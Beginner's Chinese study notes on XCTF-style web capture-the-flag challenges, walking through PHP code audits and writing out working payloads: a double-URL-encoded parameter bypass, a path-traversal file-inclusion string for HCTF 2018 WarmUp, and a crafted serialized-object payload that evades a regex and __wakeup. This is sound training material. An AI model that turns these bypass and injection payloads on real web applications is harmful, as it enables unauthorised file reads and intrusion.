







攻防世界 baby_web 链接（题解）：https://blog.csdn.net/Catherine_qingzhu/article/details/105335243
对于初始页面，查询到以下资料：
Apache服务器的默认首页（初始页面）:
1 2 3 DirectoryIndex index.php index.html 或 DirectoryIndex index.html index.cgi index.pl index.php index.xhtml index.htm
链接：配置Apache服务器的默认首页-Apache-PHP中文网
链接：关于配置Apache网站根目录以及默认页面_zhang44429824的博客-CSDN博客_apache默认网站根目录
本题的flag隐藏在请求 URL/index.php 这一资源后服务器返回的响应报文的报文首部中。

收获：
1、了解到响应报文的报文首部中可以隐藏一些有用的信息。
2、重新回顾了一下《图解HTTP》56页的知识，对301、302状态码有了更深一步的认识。
Training-WWW-Robots Robots协议，与新手区的robots解题过程相似
1 2 3 URL/robots.txt URL/fl0g.php cyberpeace{76f058b55f56b5f5b05fb69fe2ff8de6}
PHP2 御剑工具下载：
链接：后台扫描工具 - 御剑（珍藏版）附下载_hackzkaq的博客-CSDN博客_御剑扫描
注：以后这类软件，下载的时候若担心植入过木马病毒，可以装载至虚拟机中

.phps文件：
链接：后缀名为.phps的文件_h0ld1rs的博客-CSDN博客_index.phps
解题过程：

1 URL/index.phps //别管那么多，加进你的字典就完事了（御剑扫描时用到的字典）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php // $_GET[id]：以 GET 方式传入一个名为 id 的变量值，变量值赋给 $_GET[id] //若"admin"完全等价于传入值，则执行该if语句内的代码 if("admin"===$_GET[id]) { echo("<p>not allowed!</p>"); exit(); } //将 $_GET[id] 值进行一次 urldecode 解码 $_GET[id] = urldecode($_GET[id]); //再次判断，若为真则执行if语句中的代码 if($_GET[id] == "admin") { echo "<p>Access granted!</p>"; echo "<p>Key: xxxxxxx </p>"; } ?> Can you anthenticate to this website?
1 2 3 4 5 6 因此该题借助 urlencode 编码 "admin" 中任意数量的任意字符即可绕过第一个if判断。 但由于地址栏传入参数id时，浏览器会自动对URL后面的非ASCII码的字符进行一次urlencode 因此我们要进行两次 urlencode 编码 admin->%61%64%6D%69%6E->%2561%2564%256D%2569%256E 因此构造payload：URL/?id=%2561%2564%256D%2569%256E 当然，只对一个字符进行两次 urlencode 编码也可 admin->%61dmin->%2561dmin
1 2 3 4 5 地址栏输入：URL/?id=%2561%2564%256D%2569%256E 后自动解码一次 因此第一个if语句的比较判断为：if("admin"==="%61%64%6D%69%6E") 之后解码一次：urldecode(%61%64%6D%69%6E)=admin 最后第二个if语句的比较判断为：if("admin"==="admin")，从而拿到flag flag：cyberpeace{91d2e75adf3715a0f492b9864c0eb73a}

推荐题解：https://blog.csdn.net/wyj_1216/article/details/95235159
warmup 解题过程：
1 2 3 4 5 6 7 8 9 查看网页源代码，发现注释中提示的source.php文件 URL/source.php (地址栏IP地址后添加/source.php查看该文件) 代码审计，发现存在另一文件hint.php URL/hint.php 查看该文件 得到提示--flag位于ffffllllaaaagggg文件中 代码审计 GET方式传参：URL/?file=source.php?/../../../../ffffllllaaaagggg (估计四次返回上一级目录（../）后到达根目录，否则输入4个以上的../不会得到flag) flag：flag{25e7bce6005c4e0c983fb97297ac6e5a}
阅读了大量的题解及相关资料后，记录一下个人观点，因为只是浅学过php的基本语法（还是昨天学的2022/1/22），很多地方的实现细节目前并不了解，只能泛泛而谈，讲个大概。在此也不对php进行深入的了解，先广泛学习，以后再回头来深究，毕竟我还有很多东西得先了解：
1、审计代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 if (! empty($_REQUEST['file']) //--1.传入值为非空 && is_string($_REQUEST['file']) //--2.传入值为字符串 && emmm::checkFile($_REQUEST['file'])//--3.能够通过checkFile()函数校验 //URL/?file=source.php?/../../../../ffffllllaaaagggg //因此此处的$_REQUEST['file']值为source.php?/../../../../ffffllllaaaagggg ) { //此时$_REQUEST['file']值任为:source.php?/../../../../ffffllllaaaagggg //此时include的对象值长上面那样↗，我也很懵，没见过这种用法 //对于include $_REQUEST['file']; //就当做是以source.php为当前目录，往上返回四级目录后找到ffffllllaaaagggg吧 //然后在当前网页中插入ffffllllaaaagggg中的数据，打印出flag include $_REQUEST['file']; exit; } else { //--否则打印滑稽 echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />"; }
2、checkFile() 函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 public static function checkFile(&$page) //&:https://www.cnblogs.com/qq1069284034/p/8390739.html //$page由$_REQUEST['file']传入,值为source.php?/../../../../ffffllllaaaagggg { //列出白名单 $whitelist = ["source"=>"source.php","hint"=>"hint.php"]; //isset()检测变量是否已设置并且非 NULL，存在且不为 NULL则返回true //is_string()检查变量的类型是否为字符串，是字符串则返回true // ！ || ！逻辑，二者皆为true则不执行if内的语句，否则checkFile()返回false if (! isset($page) || !is_string($page)) { echo "you can't see it"; return false; } //判断$page是否存在于白名单 //此时$page=="source.php?/../../../../ffffllllaaaagggg" //此时不存在于白名单，该if内语句不执行 if (in_array($page, $whitelist)) { return true; } //mb_substr():https://www.runoob.com/php/func-string-mb_substr.html //“.”:https://blog.csdn.net/huawuque004/article/details/83301841 //mb_strpos():https://www.feiniaomy.com/post/388.html //截取$page中'?'前部分赋给$_page //故$_page=="source.php" $_page = mb_substr( $page, 0, mb_strpos($page . '?', '?') ); //此时$_page存在于白名单中，执行return true，我们回到审计代码中 if (in_array($_page, $whitelist)) { return true; } //urldecode():https://www.w3cschool.cn/php/php-urldecode.html $_page = urldecode($page); $_page = mb_substr( $_page, 0, mb_strpos($_page . '?', '?') ); if (in_array($_page, $whitelist)) { return true; } echo "you can't see it"; return false; }
题解链接（个人感觉有帮助的题解）：
链接：[HCTF 2018]WarmUp_1ance’s blog-CSDN博客
链接：[原题复现]HCTF 2018 Warmup（文件包含） - 笑花大王 - 博客园 (cnblogs.com)
链接：[HCTF 2018]WarmUp - AlexANSO - 博客园 (cnblogs.com)
链接：https://blog.csdn.net/yybzzz/article/details/104971608
链接：https://blog.csdn.net/qq_42016346/article/details/104199710
链接：https://blog.csdn.net/tch3430493902/article/details/103928125
相关知识：
链接：PHP $_REQUEST_doubleguy的博客-CSDN博客_php request
链接：https://blog.csdn.net/gc_msc/article/details/76050232
收录词条：代码审计、URL编码绕过
&nPHPstorm ，XAMPP
Web_php_unserialize 代码段：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 //GET传参，输入点（URL/?var = 传入参数） if (isset($_GET['var'])) { //base64解码$var $var = base64_decode($_GET['var']); //正则过滤$var //正则表达式:https://www.runoob.com/regexp/regexp-example.html //preg_match():https://www.runoob.com/php/php-preg_match.html if (preg_match('/[oc]:\d+:/i', $var)) { //终止 die('stop hacking!'); } else { //反序列化$var，这是我们要进入的地方 @unserialize($var); } } else { //展示URL/index.php highlight_file("index.php"); }
Demo类：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 class Demo { private $file = 'index.php'; public function __construct($file) { $this->file = $file; } function __destruct() { echo @highlight_file($this->file, true); } function __wakeup() { if ($this->file != 'index.php') { //the secret is in the fl4g.php --flag位置提示点 $this->file = 'index.php'; } } }
_wakeup() 该方法是PHP__反序列化时执行的__第一个方法 ， unserialize()会先检查是否存在 _wakeup()方法 ， 若存在则会先调用该方法 ， 来预先准备对象需要的资源( 比如重新建立数据库连接 ， 执行其他初始化操作等等 )
_destruct() 析构方法 ， 当某个对象的所有引用都被删除或者当对象被显式销毁时 ， 析构函数会被执行 .
解题思路：
详见题解链接
payload构造过程：
1 2 3 4 5 6 7 8 9 据审计，应实现：new Demo("fl4g.php"); //实例化一个Demo对象 其中经过一次base64解码，一次unserialize反序列化 同时需绕过preg_match()函数与__wakeup()魔术方法 则：按顺序依次处理 new Demo("fl4g.php"); 工具链接：https://c.runoob.com/compile/1/ payload：TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ== flag：ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}

题解链接：
链接（荐）：https://blog.csdn.net/weixin_45254208/article/details/107316798
链接：https://blog.csdn.net/qq_41617034/article/details/104573548
知识积累：
简单来说反序列化 是序列化的逆向过程，把字节数组反序列化为对象，把字节序列恢复为对象的过程 成为对象的反序列化
1 2 3 4 5 基本函数: serialize()：用于序列化对象或数组，并返回一个字符串返回带有变量类型和值的字符串 unserialize()：将通过serialize()函数序列化后的对象或数组进行反序列化，并返回 原始的对象结构
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 魔术方法--不需要调用就可以执行的方法： __construct()，类的构造函数 __destruct()，类的析构函数 __call()，在对象中调用一个不可访问方法时调用 __callStatic()，用静态方式中调用一个不可访问方法时调用 __get()，获得一个类的成员变量时调用 __set()，设置一个类的成员变量时调用 __isset()，当对不可访问属性调用isset()或empty()时调用 __unset()，当对不可访问属性调用unset()时被调用。 __sleep()，执行serialize()时，先会调用这个函数 __wakeup()，执行unserialize()时，先会调用这个函数 __toString()，类被当成字符串时的回应方法 __invoke()，调用函数的方式调用一个对象时的回应方法 __set_state()，调用var_export()导出类时，此静态方法会被调用。 __clone()，当对象复制完成时调用 __autoload()，尝试加载未定义的类 __debugInfo()，打印所需调试信息
php_rce CTF——Thinkphp5远程命令执行漏洞利用_WHOAMIAnony的博客-CSDN博客_thinkphp漏洞利用
https://blog.csdn.net/qq_40884727/article/details/101452478
Web_php_include
supersqli 

sql libs(SQL注入) 链接：https://www.cnblogs.com/swl0221/p/12275508.html
链接：(2条消息) SQL注入篇——sqli-labs最详细1-40闯关指南_爱国小白帽-CSDN博客_sql注入闯关
链接：https://blog.csdn.net/sdb5858874/article/details/80727555
既然学了MySQL，那SQL自然也逃不掉：SQL 教程 (w3school.com.cn)
bugku(基础web题) 链接：首页 - Bugku CTF
web学不动了，拿着别人的题解，连用的什么工具都不知道，暂时不刷了，之后要学的话我准备从基础一点的bugku开始，攻防世界还是不太适合小白。转pwn了，至少有人可以教我，而且基础工具及基础操作方法我也掌握了大概。web就当是踩了一个坑就放弃了吧，没人带学得挺慢的。